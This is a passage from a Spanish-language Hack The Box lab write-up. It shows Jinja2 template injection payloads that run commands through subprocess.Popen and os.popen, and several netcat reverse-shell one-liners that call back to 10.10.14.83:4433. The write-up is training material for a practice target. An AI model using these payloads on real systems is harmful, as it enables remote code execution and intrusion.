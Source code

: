 [Siguiendo esta guia](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee), logramos obtener el index exacto (407) de la clase [`subprocess.Popen`](https://docs.python.org/3/library/subprocess.html) :P, con el cual tambien podemos ejecutar comandos:

{% raw %}
```py
{{''.__class__.__mro__[1].__subclasses__()[407]('ls -la',shell=True,stdout=-1).communicate()}}
```
{% endraw %}

**--- :ATON**

Para conseguir la reverse shell podemos probar con `netcat`:

{% raw %}
```py
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('nc 10.10.14.83 4433 -e /bin/bash')['read']()}}
```
{% endraw %}

o

{% raw %}
```py
{{''.__class__.__mro__[1].__subclasses__()[407]('nc 10.10.14.83 4433 -e /bin/bash',shell=True,stdout=-1).communicate()}}
```
{% endraw %}

Pero no obtenemos respuesta, probemos con la versión antigua, pueda que esa sea la que este instalada:

{% raw %}
```py
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.83 4433 >/tmp/f')['read']()}}
```
{% endraw %}

o 

{% raw %}
```py
{{''.__class__.__mro__[1].__subclasses__()[407]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.83 4433 >/tmp/f',shell=True,stdout=-1).communicate()}}
```
{% endraw %}

Con cualquiera de las dos obtenemos la reverse sheeeeeeeeeeeeeeeeell :)

![278pagedoctors_injA_revshdone](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/doctor/278pagedoctors_injA_revshdone.png)
